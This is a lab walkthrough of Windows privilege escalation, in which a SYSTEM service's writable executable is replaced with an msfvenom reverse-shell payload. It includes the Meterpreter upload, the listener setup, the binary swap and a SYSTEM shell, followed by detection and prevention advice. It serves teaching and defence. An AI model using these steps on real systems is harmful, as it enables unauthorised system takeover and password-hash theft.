





# File Permission Service

**Date:** June 2026<br>
**Author:** ShahinSecLab<br>
**Category:** Privilege Escalation<br>
**Difficulty:** Easy<br>
**Tools:** msfvenom, Metasploit, winPEAS, accesschk.exe

## Table of Contents

* [Introduction](#introduction)
* [Attack Flow](#attack-flow)
* [Why This Attack Works](#why-this-attack-works)
* [Lab Setup](#lab-setup)
* [Tools Used](#tools-used)
* [Prerequisites](#prerequisites)
* [Step 1 — Running winPEAS to Find the Vulnerable Service](#step-1--running-winpeas-to-find-the-vulnerable-service)
* [Step 2 — Checking the Service Configuration](#step-2--checking-the-service-configuration)
* [Step 3 — Checking Binary File Permissions with accesschkexe](#step-3--checking-binary-file-permissions-with-accesschkexe)
* [Step 4 — Backing Up the Original Service Binary](#step-4--backing-up-the-original-service-binary)
* [Step 5 — Uploading the Payload and Replacing the Service Binary](#step-5--uploading-the-payload-and-replacing-the-service-binary)
* [Step 6 — Getting a SYSTEM Shell](#step-6--getting-a-system-shell)
* [How Defenders Can Catch This](#how-defenders-can-catch-this)
* [How to Prevent It](#how-to-prevent-it)
* [References](#references)
* [Lessons Learned](#lessons-learned)

## Introduction

File Permission Service is a Windows privilege escalation technique that takes advantage of weak permissions on a service executable. If a normal user has permission to modify or replace the service binary, they can replace it with a malicious executable. When the service starts, Windows runs that executable with the same privileges as the service. If the service runs as **SYSTEM**, the malicious executable also runs as **SYSTEM**, giving the attacker full control of the machine.

## Attack Flow

```
Already had a low privilege Meterpreter shell on the victim
                        ↓
Ran winPEAS — flagged filepermsvc with weak file permissions
                        ↓
Checked service config — runs as LocalSystem (SYSTEM)
                        ↓
Checked file permissions with accesschk.exe
                        ↓
Found FILE_ALL_ACCESS for Everyone and BUILTIN\Users on the binary
                        ↓
Backed up original binary to C:\temp
                        ↓
Uploaded malicious rev.exe from Kali to victim
                        ↓
Replaced filepermservice.exe with rev.exe
                        ↓
Started Metasploit listener on port 4444
                        ↓
Started filepermsvc service
                        ↓
Metasploit caught the shell
                        ↓
whoami → nt authority\system
                        ↓
Ran hashdump — dumped all password hashes from the machine
```

## Why This Attack Works

This attack works because the service executable has weak file permissions.

The filepermsvc service runs as LocalSystem, but its executable can be modified by normal users because it has FILE_ALL_ACCESS permissions. By replacing the original executable with a malicious payload and starting the service, Windows runs the payload as SYSTEM, giving full control of the machine.

## Lab Setup

|   Component      |         Details          |
|------------------|--------------------------|
| Attacker Machine | Kali Linux               |
| Attacker IP      | `192.168.5.128`          |
| Victim Machine   | Windows 10 (MSEDGEWIN10) |
| Victim IP        | `192.168.5.144`          |
| Network          | VMware Host-Only Network |
| Domain           | WORKGROUP                |

## Tools Used

| Tool | Location | Purpose |
|------|----------|---------|
| `winPEASany.exe` | `/home/kali/Desktop/tools/` | Find privilege escalation paths |
| `accesschk.exe` | `/home/kali/Desktop/tools/` | Check file and service permissions |
| `msfvenom` | Built into Kali | Generate the malicious executable (`rev.exe`) |
| `Metasploit` | Built into Kali | Catch the reverse shell |               |

## Prerequisites

| Requirement | Purpose |
|------------|---------|
| Windows machine with the vulnerable service | Target machine |
| Low privilege shell on the target | Required to interact with the service |
| Kali Linux | Attacker machine |
| Service running as **LocalSystem (SYSTEM)** | Required for privilege escalation |
| Weak write permissions on the service executable | Allows the service binary to be replaced |

## Step 1 — Running `winPEAS` to Find the Vulnerable Service

I already had a low-privilege Meterpreter shell on the target machine. I ran `winPEAS` to look for privilege escalation opportunities.

```bash
C:\PrivEsc> .\winPEASany.exe
```
**Output:**

```
filepermsvc(File Permissions Service)["C:\Program Files\File Permissions Service\filepermservice.exe"] - Manual - Stopped
    File Permissions: Everyone [AllAccess]
```
`winPEAS` identified the `filepermsvc` service as a possible privilege escalation path. It showed that the service executable had `FILE_ALL_ACCESS` permission for `Everyone`, meaning any user could modify or replace the file.

<p align="center">
  
</p>

## Step 2 — Checking the Service Configuration

After finding the vulnerable service with **winPEAS**, I checked its configuration.

```bash
C:\PrivEsc> sc qc filepermsvc
```
**Breakdown**

| Part | Description |
|------|-------------|
| `sc` | Windows Service Control command |
| `qc` | Displays the service configuration |
| `filepermsvc` | Name of the service being checked |

**Output:**

```
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: filepermsvc
        TYPE               : 10  WIN32_OWN_PROCESS 
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Program Files\File Permissions Service\filepermservice.exe"
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : File Permissions Service
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem
```
The output showed that the service runs as **LocalSystem**, which means it runs with **SYSTEM** privileges. It also showed the full path to the service executable, which I used in the next step.

<p align="center">
  
</p>

## Step 3 — Checking Binary File Permissions with accesschk.exe

To verify that I could replace the service executable, I checked its file permissions using `accesschk.exe`.

```bash
.\accesschk.exe /accepteula -uwqv "C:\Program Files\File Permissions Service\filepermservice.exe"
```

**Breakdown**

| Part | Description |
|------|-------------|
| `accesschk.exe` | Checks permissions on files, folders, and services |
| `/accepteula` | Automatically accepts the Sysinternals license agreement |
| `-u` | Ignores error messages |
| `-w` | Shows objects that have write permissions |
| `-q` | Hides the banner |
| `-v` | Displays detailed permission information |
| `"C:\Program Files\File Permissions Service\filepermservice.exe"` | Path to the service executable |

**Output:**

```
C:\Program Files\File Permissions Service\filepermservice.exe
  Medium Mandatory Level (Default) [No-Write-Up]
  RW Everyone
        FILE_ALL_ACCESS
  RW NT AUTHORITY\SYSTEM
        FILE_ALL_ACCESS
  RW BUILTIN\Administrators
        FILE_ALL_ACCESS
  RW BUILTIN\Users
        FILE_ALL_ACCESS
```
- `RW Everyone — FILE_ALL_ACCESSE`: Every user on the machine has full control of the file.
- `RW BUILTIN\Users — FILE_ALL_ACCESS`:  Normal users can modify or replace the service executable.

The `FILE_ALL_ACCESS` permission for `Everyone` confirmed that I could replace the original service executable with my own payload.

<p align="center">
  
</p>

## Step 4 — Backing Up the Original Service Binary

Before replacing the original service executable, I created a backup so I could restore it later if needed.

```bash
copy "C:\Program Files\File Permissions Service\filepermservice.exe" C:\temp
```
**Breakdown**

| Part | Description |
|------|-------------|
| `copy` | Copies a file from one location to another |
| `"C:\Program Files\File Permissions Service\filepermservice.exe"` | Original service executable |
| `C:\temp` | Location where the backup is saved |

**Output:**

```
1 file(s) copied.
```
The backup was created successfully in `C:\temp`.

<p align="center">
  
</p>

## Step 5 — Uploading the Payload and Replacing the Service Binary

### Uploaded `rev.exe` from Kali

I had already created a payload named `rev.exe` using **msfvenom**. I uploaded it from my Kali machine to the victim using Meterpreter.

```bash
meterpreter > upload /home/kali/Desktop/rev.exe
```
**Output:**

```
[*] Uploading  : /home/kali/Desktop/rev.exe -> rev.exe
[*] Uploaded 7.50 KiB of 7.50 KiB (100.0%): /home/kali/Desktop/rev.exe -> rev.exe
[*] Completed  : /home/kali/Desktop/rev.exe -> rev.exe
```
The payload was uploaded successfully.

<p align="center">
  
</p>

### Started Metasploit Listener on Kali

Before starting the service, I started a Metasploit listener on my Kali machine to receive the reverse shell.

```bash
msfconsole -q
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 192.168.5.128
set lport 4444
run
```
**Output:**

```
[*] Started reverse TCP handler on 192.168.5.128:4444 
```
<p align="center">
  
</p>

### Replaced the Original Service Binary

```bash
C:\PrivEsc> copy C:\PrivEsc\rev.exe "C:\Program Files\File Permissions Service\filepermservice.exe"
```
**Breakdown**

| Part | Description |
|------|-------------|
| `copy` | Copies a file from one location to another |
| `C:\PrivEsc\rev.exe` | The payload executable |
| `"C:\Program Files\File Permissions Service\filepermservice.exe"` | The original service executable being replaced |

**Output:**

```
Overwrite C:\Program Files\File Permissions Service\filepermservice.exe? (Yes/No/All): Yes
Yes
        1 file(s) copied.
```

The original service executable was replaced with `rev.exe`. When the service starts, Windows will run the new executable with **SYSTEM** privileges.

<p align="center">
  
</p>

### Started the Service

```bash
C:\PrivEsc> net start filepermsvc
```
**Breakdown**

| Part | Description |
|------|-------------|
| `net` | Windows command used to manage network resources and services |
| `start` | Starts a Windows service |
| `filepermsvc` | Name of the service to start |

## Step 6 — Getting a SYSTEM Shell

### Metasploit Caught the Connection

```
[*] Sending stage (230982 bytes) to 192.168.5.129
[*] Meterpreter session 1 opened (192.168.5.128:4444 → 192.168.5.144:49922) at 2026-01-19 12:16:34
```
The listener received a new Meterpreter session from the target machine.

### Checked Privileges

I opened a Windows shell from Meterpreter:

```bash
meterpreter > shell
```
Then I checked the current user:
```bash
C:\Windows\system32> whoami
```
**Output:**

```
nt authority\system
```

The `whoami` command confirmed that I had successfully gained **SYSTEM** privileges. By replacing the service executable and starting the service, Windows ran my payload with the same privileges as the service.

## How Defenders Can Catch This

| Indicator | What to Look For |
|-----------|-------------------|
| Service executable replaced | File integrity monitoring detects changes to the service binary |
| Service started unexpectedly | Windows Event Logs showing unusual service start events |
| New executable copied into the service folder | File creation or file replacement events |
| Reverse connection from the server | Network logs showing unexpected outbound connections |
| Weak permissions on service binaries | Security audits showing `Everyone` or `BUILTIN\Users` with write access |

## How to Prevent It

- Remove write permissions from service executables for normal users.
- Allow only SYSTEM and Administrators to modify service files.
- Regularly review file permissions on service directories.
- Monitor important service files for unexpected changes.
- Keep Windows systems updated and review security settings regularly.
- Use application allowlisting so only trusted programs can run.

## References

| Resource | Link |
|----------|------|
| Microsoft — Windows Services | https://learn.microsoft.com/windows/win32/services/services |
| Microsoft — AccessChk | https://learn.microsoft.com/sysinternals/downloads/accesschk |
| winPEAS | https://github.com/peass-ng/PEASS-ng |
| Metasploit Framework | https://github.com/rapid7/metasploit-framework |
| MITRE ATT&CK — Hijack Execution Flow | https://attack.mitre.org/techniques/T1574/ |

## Lessons Learned

- Finding weak file permissions is just as important as finding vulnerable software.
- A service running as SYSTEM becomes dangerous if normal users can replace its executable.
- winPEAS is a good tool for finding privilege escalation opportunities quickly.
- accesschk.exe helps confirm whether a service or file can be modified.
- Replacing a service binary is enough to get a SYSTEM shell when permissions are misconfigured.
- Checking file permissions should always be part of a Windows security review.